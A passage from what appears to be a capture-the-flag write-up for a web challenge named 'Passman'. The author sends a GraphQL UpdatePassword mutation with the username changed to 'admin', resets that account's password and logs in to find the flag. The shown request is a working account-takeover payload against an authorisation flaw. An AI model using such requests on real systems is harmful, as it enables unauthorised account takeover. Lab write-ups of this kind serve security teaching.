 Interesting. Now what if I change the username to `admin`.

```json
{
    "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
    "variables": {
        "username": "admin",
        "password": "abc123"
    }
}
```
![Passman Screenshot](web-passman/09.png)

Interesting. I should now be able to log in as the admin user using their new password.

Looks like we can, and we can see they've saved the flag in their password vault.

![Passman Screenshot](web-passman/10.png)